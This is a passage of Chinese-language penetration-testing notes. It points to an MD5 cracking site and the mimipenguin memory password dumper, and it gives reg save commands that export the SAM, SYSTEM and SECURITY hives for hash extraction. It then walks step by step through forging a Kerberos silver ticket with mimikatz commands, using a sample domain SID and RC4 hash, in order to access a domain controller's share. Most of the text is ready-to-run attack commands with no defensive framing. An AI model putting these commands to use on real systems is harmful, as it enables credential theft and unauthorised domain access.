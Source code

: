 HCE 分布式计算平台, 需要积分才能使用

[md5在线解密破解,md5解密加密](http://www.cmd5.com/ "md5在线解密破解,md5解密加密")

目前暂不支持 SHA-512

**mimipenguin**

下载地址：

[https://github.com/huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin "https://github.com/huntergregal/mimipenguin")

原理类似于 mimikatz，通过内存导出明文密码

**导出注册表**

reg save hklm\\sam d:\\web\\sam.hive

reg save hklm\\system d:\\web\\system.hive

reg save hklm\\security d:\\web\\security.hive

导出文件成功后可以用cain读取到hash列了。

## 制作白银票据的条件

1.域名称

2.域的SID值

3.域的服务账户的密码HASH

4.伪造的用户名，可以是任意用户名，一般伪造administrator

5.需要访问的服务

**第一步：**

管理员权限运行mimikatz

privilege::debug #提升权限

sekurlsa::logonpasswords #获取service账户hash 和sid(同一个域下得sid一样)

**第二步：**

清空本地票据缓存

kerberos::purge #清理本地票据缓存

kerberos::list #查看本地保存的票据

**第三步：**

伪造白银票据并导入

kerberos::golden /domain:superman.com /sid:S-1-5-21-259090122-541454442-2960687606 /target:win08.superman.com /rc4:f6f19db774c63e49e9af61346adff204 /service:cifs /user:administrator /ptt

**第四步：**

访问域控的共享目录
